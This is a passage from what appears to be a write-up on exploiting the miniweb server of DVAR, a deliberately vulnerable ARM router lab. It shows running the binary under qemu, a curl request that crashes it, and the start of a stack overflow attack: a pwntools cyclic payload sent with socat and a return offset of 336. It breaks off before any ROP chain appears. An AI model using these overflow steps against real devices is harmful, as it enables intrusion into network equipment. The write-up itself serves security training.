 ```bash
echo "[patch.sh] Patched file written to ${FILEPATH}.patched"
```

Then makes the script executable and run it:
```bash
chmod +x patch.sh
./patch.sh ./miniweb ./rootfs-arm
```

This should generate a `miniweb.patched` file that we can debug with gdb. First, we can try to send the specific HTTP request we found earlier, and which presumably crash the server. We run the binary with qemu (without starting gdb server) and send the request using curl:

```bash
qemu-arm -L ./rootfs-arm \
           -B 0x10000 ./miniweb.patched
```

In another terminal send the buggy HTTP request:
```bash
curl 'http://localhost:4444/basic.html?dhcp_end=149&oldMtu=1500&oldLanSubnet=0&OldWanMode=0&SDHCP1=192&SDHCP2=168&SDHCP3=1&SDHCP4=100&EDHCP1=192&EDHCP2=168&EDHCP3=1&EDHCP4=150&pd=&now_proto=dhcp&old_domain=&chg_lanip=192.168.1.254&_daylight_time=0&wan_proto=0&router_name=DVAR&wan_hostname=&wan_domain=&mtu_enable=0&lan_ipaddr_0=192&lan_ipaddr_1=168&lan_ipaddr_2=1&lan_ipaddr_3=254&lan_netmask=0&lan_proto=Enable&dhcp_start=100&dhcp_num=50&dhcp_lease=0&dns0_0=0&dns0_1=0&dns0_2=0&dns0_3=0&dns1_0=0&dns1_1=0&dns1_2=0&dns1_3=0&dns2_0=0&dns2_1=0&dns2_2=0&dns2_3=0&wins_0=0&wins_1=0&wins_2=0&wins_3=0&time_zone=%28GMT%2B05%3A30%29+Bombay%2C+Calcutta%2C+Madras%2C+New+Delhi&layout=en'
```

In the `qemu-arm` terminal, you should see the message `qemu: uncaught target signal 11 (Segmentation fault) - core dumped` indicating a crash of the server. In reality, it's the child process handling the client which crashes. It means the server will remain functional and not block while we exploit the vuln.

##### Exploitation

We will try to exploit this server using only ROPs :) 

Funny, but quite a mess lmao.


```python
from pwn import *
req = b'GET /basic.html?' + cyclic(500, n=4) + b' HTTP/1.1\r\n'
req += b'Host: 192.168.100.2\r\n\r\n'
open('request.txt', 'wb+').write(req)
```

```bash
socat file:./request.txt tcp:localhost:4444
```

![crash with cyclic](/img/dvar/crash-with-cyclic.png)

```python
In [1]: from pwn import *
In [2]: cyclic_find(0x6461616a, n=4)
Out[2]: 336
```
